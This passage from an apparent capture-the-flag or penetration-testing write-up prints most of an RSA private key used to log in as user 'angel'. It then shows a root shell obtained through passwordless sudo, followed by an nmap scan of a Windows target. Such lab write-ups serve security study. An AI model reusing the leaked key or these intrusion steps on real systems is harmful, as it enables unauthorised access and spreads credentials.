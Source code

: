 ```
kQKO1tDGhysJGullzfkxB2uyoxGXmTprDGIoBFMyoaFtOw+lfnzjiWtXtzF+pirt
3lGfZUYhw6zzqmyte6o2w/kaMc+G+Q4ogwdcpp0LHFmhAGTmj9dyp9ADPKpZ4RZU
ro3rWha47rW7G/4PlULIijtRXVdqMnFjNA1Ra52QnG0xokgSmHxlcsX8suJIDRO5
OJju48C8yopvlpRSZca1kU7OJ/4MtphOPhLf8UB8r0+fHqbTeECBIHXTeIJoEB8x
ADPmkt0NzX6cYI3j07jB54SPrU96eRs20+nWyQIDAQABAoIBADB/XyTbYC/bjW2N
5r6yd+/QMDLoTYAOwAQSTJcLFYBKovMNvlHAlLIXt/2igv6wZG+wjeGcRf7aN3jr
bHw5YAErcbjYN91YHEKYh0UDR0mhKnlLo/OtkrlLhsvwciSkVL6esziW3aGAbLNd
svaJOhe8wwbApe6OtkxMgwx5vNhw8oO40ifOuAv4r1ryoTbCJNv8EapYHxxtGYXU
Js44Zlas05988WBI+xa0iDJplvqZ1ncl5OrokYJG7pLAuFJvU0vqfTB9l3nYWuGO
/Lh/FpCXfBVZNoqeuL0DUsulUGqW8SvuuesPrSZr71U3kxjJwq6U0xsi528o0QMV
KN+AX3UCgYEA9fQ0EiDavyzG6M6hOOLSvJburzdeVMnw/0FTpTwsTMAM0X+4qTTK
pN4GQ07zyuhv1HfOuxtyHFbuhzqrM2i4QWXqWs6pPTDs0FHAyaPNgXpfojPJRFTk
WTewVRMrMwJ0uxhLIJfV9+iBLB4KFyxJ3gcRwNPBAodJgrW41F0WrLMCgYEA12uJ
S22YgMx2yCWDxxjS2Lvu86BIKqizYjVAZ6lxjcdvTTwRjaiDH55LrTwUUUs1Z7be
vPze3jz/iYidnvqsFAM/kni4IxpghcsDlq5x3CkyF2WuqhKz73Z9RYYpzXz7bRMJ
D219yPTa+id/LxCLYPYm6vCwsCvFL4aaWKa2pJMCgYEA20CEopxzI/UQpDx+8C0T
W1bZE40yJDeZBJMBs8y+WPTi+Gb5AK2079+Uia/6GCm4dxkOSzGeObEtFZOxRjTV
/EaT8btElu3kTZhzWc0Rx5iFZBzyEF306auBH3XlDqXj1V1Eq5tu/H5hmCh3Kk0q
1ChNJS4fYtejKkhAqd8J9Y0CgYALByNJLDwhY9Y02s7LM3cfx0ctS6hGHsrIHUfF
xsPcaThGcOvJH7ZOuRDQtoGnw7zhKVhvvlY+dEr0pHzFNbn3cE8h1XI/wcrtLn5p
iVak2asJzZfKdxilCqDRHVQog9xvMglFs+o7jmVjZwA4zZUFCrTlVBsHecYnb7GZ
FjfFZwKBgATlUyGFfWfrKbU6heNL4GpdZnvs1zV6rU4et8oVPCjYVslt34aubkG4
wQY5bMC6MGG2bH5yU/xN48+qNfFwoT977qpfEndWI0fg4h/GUDuOpzQUtKkZrHD0
ucwgWYMGOROeYewjyh/ftVhLzh4o4Y++kmwY0LY2A92WMBjBy3Qt
-----END RSA PRIVATE KEY-----

```

With this we can log in as angel.

### PRIV ESC

After running sudo -l we see angel has ALL permissions no passwd so just use the command `sudo bash` to spawn a shell as root.
```
angel@cms:~$ sudo -l
Matching Defaults entries for angel on cms:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angel may run the following commands on cms:
    (ALL : ALL) NOPASSWD: ALL

angel@cms:~$ sudo bash
root@cms:~#
```

## COLD

### NMAP
```
PORT      STATE SERVICE            REASON          VERSION
80/tcp    open  http               syn-ack ttl 127 Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.2.30)
135/tcp   open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 127 Microsoft Windows netbios-ssn
443/tcp   open  ssl/http           syn-ack ttl 127 Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.2.30)
445/tcp   open  microsoft-ds       syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 127
5500/tcp  open  http               syn-ack ttl 127 Jetty 9.3.6.v20151106
8500/tcp  open  http               syn-ack ttl 127 Samsung AllShare httpd
```